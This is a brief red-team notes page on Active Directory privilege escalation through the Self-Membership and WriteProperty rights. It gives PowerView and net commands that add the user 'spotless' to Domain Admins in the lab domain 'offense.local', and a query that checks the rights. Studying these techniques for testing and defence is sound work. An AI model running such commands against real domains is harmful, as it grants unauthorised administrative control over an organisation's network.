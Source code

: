# Self-membership

### <mark style="color:orange;">Self-Membership</mark>

Another privilege that enables the attacker adding themselves to a group:

![](<../../../../.gitbook/assets/image (7).png>)

```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

### <mark style="color:orange;">WriteProperty (Self-Membership)</mark>

One more privilege that enables the attacker adding themselves to a group:

```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../../../.gitbook/assets/image (51).png>)

```
net group "domain admins" spotless /add /domain
```
